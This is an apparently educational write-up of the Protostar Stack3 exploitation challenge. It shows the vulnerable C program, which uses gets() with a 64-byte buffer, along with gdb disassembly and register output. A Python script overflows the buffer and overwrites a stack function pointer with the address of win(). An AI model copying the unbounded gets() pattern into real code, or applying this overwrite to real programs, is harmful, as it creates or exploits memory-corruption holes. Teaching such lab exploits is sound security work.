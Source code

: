 Our goal is to solve this explotation challenge <i> [Stack3](https://exploit.education/protostar/stack-three/)</i>
by redirecting code to function win

# Code to exploit 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}

```

In this code we have a function-pointer in stack, which will be called if its value 
is different than zero.


We will run the programm with gdb to have a view of the assembly code.

```

0x08048438 <main+0>:	push   %ebp
0x08048439 <main+1>:	mov    %esp,%ebp
0x0804843b <main+3>:	and    $0xfffffff0,%esp
0x0804843e <main+6>:	sub    $0x60,%esp
0x08048441 <main+9>:	movl   $0x0,0x5c(%esp)
0x08048449 <main+17>:	lea    0x1c(%esp),%eax
0x0804844d <main+21>:	mov    %eax,(%esp)
0x08048450 <main+24>:	call   0x8048330 <gets@plt>
0x08048455 <main+29>:	cmpl   $0x0,0x5c(%esp)
0x0804845a <main+34>:	je     0x8048477 <main+63>
0x0804845c <main+36>:	mov    $0x8048560,%eax
0x08048461 <main+41>:	mov    0x5c(%esp),%edx
0x08048465 <main+45>:	mov    %edx,0x4(%esp)
0x08048469 <main+49>:	mov    %eax,(%esp)
0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    0x5c(%esp),%eax
0x08048475 <main+61>:	call   *%eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret  

```

The problem is when we move a value from the stack to %eax and then call %eax.

```

0x08048471 <main+57>:   mov    0x5c(%esp),%eax
0x08048475 <main+61>:   call   *%eax

```

We give as programm input a huge string "AAAABBBBCCCC..." and then we see that %eax 
will be equal to 0x51515151 before <main+61>.


```

0x0804846c <main+52>:	call   0x8048350 <printf@plt>
0x08048471 <main+57>:	mov    0x5c(%esp),%eax
0x08048475 <main+61>:	call   *%eax
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret    
End of assembler dump.
(gdb) b *main +61
Breakpoint 1 at 0x8048475: file stack3/stack3.c, line 22.
(gdb) r < /home/user/tmp 
Starting program: /opt/protostar/bin/stack3 < /home/user/tmp
calling function pointer, jumping to 0x51515151

Breakpoint 1, 0x08048475 in main (argc=1448498774, argv=0x57575757) at stack3/stack3.c:22
22	stack3/stack3.c: No such file or directory.
	in stack3/stack3.c
(gdb) info registers 
eax            0x51515151	1364283729
ecx            0x0	0
edx            0xb7fd9340	-1208118464


```

We know that the ASCII value 0x51 is letter Q so our exploit string will be 
"AAAABBBBCCCC....OOOOPPPP"+ the address of function win 

We obtain from gdb the address of function win

```
(gdb) x win
0x8048424 <win>:	0x83e58955

```

And then with this python code we will do the final explotation

```

import struct

#This function generates a string like AAAABBBBCCCC so that we can find some information 
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)

        string = string.split("QQQQ")[0]
        string = string + struct.pack("I",0x08048424)

        print(string)

```


Finally we run like 

```
user@protostar:~$ python stack3.py | /opt/protostar/bin/stack3

calling function pointer, jumping to 0x08048424
code flow successfully changed

user@protostar:~$ 

```

and we get the expected output

